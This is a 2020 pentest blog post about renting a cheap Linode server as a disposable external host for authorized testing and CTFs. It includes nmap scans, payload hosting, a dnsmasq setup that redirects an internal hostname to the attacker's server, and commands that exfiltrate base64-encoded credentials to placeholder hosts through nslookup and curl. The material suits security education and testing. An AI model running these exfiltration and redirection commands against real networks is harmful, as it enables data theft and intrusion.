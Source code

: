 ```yaml
---
title: "Dynamic Public Cloud Server for the Win"
date: 2020-01-03 09:00:00 +0000
layout: post
author: OverCast
twitter: "https://twitter.com/DefCon864"
permalink: blog/dynamic-public-cloud-server-ftw.html
tags: [cloud, dns, intercept traffic, CTF, Linode]
---
```

> This is for the pirates who clap
> And love the sound
> Attacking from the cloud
> Then we're back and underground
~ Dual Core, All The Things

TL;DR.
  - Prevent your home IP from being banned
  - Simple, cheap Linux server with dynamic, public IP address
  - Route DNS, HTTP, TLS, or other traffic you want to intercept
  - Host services needed for research, CTF, or pentest engagement

# Overview
There are many reasons why masking your traffic is important.  One specific case relates to the tasks we perform during an authorized hack or researching a potential vulnerability.  Scanning, trial 'n error discovery and exploitation can generate lots of traffic which can lead to your home IP address finding its way on one or more black lists.  Getting a new public IP address for su casa is a pain in the neck while your family enjoys the throwback non-Internet lifestyle of 1985.  

I recently needed to run several external public services but did not want to open any holes in my home perimiter or stand up a domain.  Those would be overkill to validate what I was researching, validate data exfiltration and perimiter leak vulnerabilities.  My requirements are simply: a dynamic public IP address in the wild to host DNS and web servers, SSH access to inspect DNS and TLS traffic.  This would work for any online CTF or pentest engagement where you want to validate the targets ability to communicate external to the organization.

The solution I went with -and it worked really well- was to spin up a [Linode Nanode server](https://www.linode.com/products/nanodes/).  The full engagement cost only $0.09 for 10 hours of system uptime.  In many respects this write-up is cloud vendor agnostic.  While I use [Linode](https://www.linode.com) here you can follow the same steps on a different provider with minor variation.

 __*Warning:*__  This is not a replacement for a proper VPN or Tor usage (proxychains).  It is a quick 'n fast means with little commitment to separate my public IP from the equation.

## Setup
Signing up for the cloud provider is a straight forward process.  No surprises here.  Creating a Nanode is just two steps:
1. Under the __Linode__ menu option Click __Create a Linode__

    ![create](/images/overcast/dynamic-public-cloud-server-ftw/01-create-a-nanode.png){:height="50%" width="50%"}

2. Define your settings
* Pick a __distro__
* Select a __Region__
* __Be careful of the default!__  Under Linode Plan select the __Nanode__ tab and pick the only option at the hourly rate of $0.0075.  The default, Standard plans are more expensive.
* Don't worry about the label and tags.  This system does not have Spock's blessing; it won't live long.
* Set your SSH keys or a root password for connecting.
* Click __Create__

    ![settings](/images/overcast/dynamic-public-cloud-server-ftw/02-nanode-settings.png){:height="50%" width="50%"}

Once you click the create button it takes a few seconds for the new box to provision and boot.  The __Summary__ page lists the IPv4 and IPv6 addresses.

![booted](/images/overcast/dynamic-public-cloud-server-ftw/03-boot.png){:height="50%" width="50%"}

Two console web shells options are provided by Linode (Weblish and Glish) but you'll want to use your own SSH session from your box.  Once you gain SSH access you can do all the normal sysadmin things to scaffold your platform.  I was raised by graybeards so the lack of maintaining tools such as netstat and ifconfig is disconcerting to say the least.  Yet I will resist the urge to install net-tools.  This host is bare bones right now so let's add what we need.

```bash
apt-get -y update
apt-get -y install nmap socat dnsmasq tcpdump
```

For those wondering, at this point your network transfer usage will be around 94 kb.  If you run an apt-get -y upgrade that number will change.

## So what can I do with this?  Here are some sample scenarios.
### Scan Your Home Public IP Address
You now have an external point of presence.  Why not take a look at how the world sees you?  This is probably one of the most practical scenarios for anyone in IT.  It's always a good idea to get a street view of your home network.  Anything unexpected showing up?
```nmap -T3 -sC -sV -Pn -p1-65535 HOME_IP```

### Public Web Server for Exploits
The simplest solution, host a temporary web server to test or exploit a vulnerability.  In this case the Nanode server runs python's SimpleHTTPServer hosting a desired payload.
```bash
mkdir badweb
cd badweb
echo "my bad payload for exploiting CSRF or some such vector" > payload.html
```
Start the web server to serve up those delicious payloads of wonder.

```bash
python -m SimpleHTTPServer 80
```

Or install Apache and operate out of /var/www/html.  The researcher triggers the vulnerability causing the target to call the Nanode web server's payload.  If this lights up a sysadmin radar or triggers a ban, no worries, destroy this nanode and start over.

### DNS Server
Name resolution plays an important role on a network.  If a network has improper egress filtering DNS can be used for exfiltration or to route internal targets to exploits hosted on your web server.  In my case I had control of the resolution process and wanted to route internal web server requests to my public web server.

On the nanode edit __/etc/dnsmasq.conf__:
* Uncomment the "__#no-resolv__" line (around line 54) so that your DNS server won't send requests upstream.
* Uncomment and modify line 131 to point to your local file for dnsmasq host resolution instead of /etc/hosts.
    ```addn-hosts=/etc/dnsmasq.hosts```
* Create the __/etc/dnsmasq.hosts__ file and set your bad web server IP address to the hostname of the internal good web server.  This will resolve the good web server name to your bad web server.

    ```
    BAD_WEB_SERVER_IP    goodwebserver.company.com
    ```

The addn-host file (dnsmasq.hosts) can be named anything and has the same content format as /etc/hosts.  Be aware though Linux can default to running its preinstalled dnsmasq as a service.  So if you attempt to start manually it will throw errors.  If you want greater control the default service can be stopped ```service dnsmasq stop``` and run manually, or in the background with &, 

```bash
dnsmasq --no-daemon --log-queries --log-facility=/var/log/dnsmasq.log
```

When not run in the background (or without tcpdump) the log file can be tailed to show any DNS queries ```tail -f /var/log/dnsmasq.log``` or parsed by one of your amazing scripts.

### Inspect Traffic

```bash
tcpdump udp port 53 or tcp port 80 or tcp port 443
```

For more verbosity use ```-v``` or ```-vv``` for a flood of connection information.  When you are in security researcher mode it helps to limit the scope to the specific protocol and port being evaluated.  This prevents unnecessary noise and keeps the content concise for the write-up.

If you have data to exfiltrate, such as ```echo "user:admin;pass:pfi9503" | base64 | sed 's/=//g'```, send it to your DNS server.

```bash
nslookup dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK NANODE_DNS_IP_ADDRESS
```

Your DNS server or tcpdump shows the query which you know to be base64 encoded.  When decoded this reveals not a hostname but the internal data ```user:admin;pass:pfi9503```.

Or if you only control a remote web server you can pull similar method from its logs by sending a request with the encoded data to exfiltrate.

```bash
curl https://NANODE_IP_ADDRESS/superfuntime/dXNlcjphZG1pbjtwYXNzOnBmaTk1MDMK
```

I use superfuntime as a control check for a script parsing the web log file to know when to decode.  It's not an actual directory or route and keeps the script from parsing any Internet noise. 

For the blue teamers among us this may be a great listening post to research the noise.

### Public CTF Box for DEF CON Group Meetings
Several of us are neck deek in CTF creation land (sounds like a new Nintendo title -- I'd play that) which led me to think of another use case.  Now that our meetings are both IRL and online this could be an interesting scenario for future DC864 meetings.  Instead of just having a CTF / vulnerable learning target on-site we can host it on a Nanode for both local and remote participants to use.  To reduce the traffic I'll probably pre-recon the box and provide it to the participants.  So if we cover a specific vector it can be the focus of the target and talk.  Even though there is a muscle memory learning benefit from recon to exploit to privelege escalation, etc. being hyper focused during meetings (eg. SQLi, LFI, etc.) could be a good thing.  Need to put a bit more brainery into this area before release so stay tuned or contribute ideas as you see fit.  Either way, we have no shortage of CTF options right now.

Happy hacking everyone.